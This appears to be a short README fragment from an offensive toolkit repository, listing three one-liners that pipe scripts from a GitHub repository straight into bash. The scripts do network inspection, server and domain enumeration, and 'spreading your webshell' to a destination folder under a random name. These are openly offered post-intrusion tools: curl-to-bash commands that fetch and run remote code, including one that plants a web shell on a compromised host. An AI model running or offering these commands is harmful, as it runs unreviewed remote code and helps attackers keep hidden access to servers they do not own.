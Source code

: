 netstat if there is no netstat/ss/lsof:
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/awk_netstat.sh | bash
```
Show all domains hosted on a server + system-information :
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/what_server.sh | bash
```
Spreading your webshell to the destination folder using a random name
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/spread.sh | bash
```
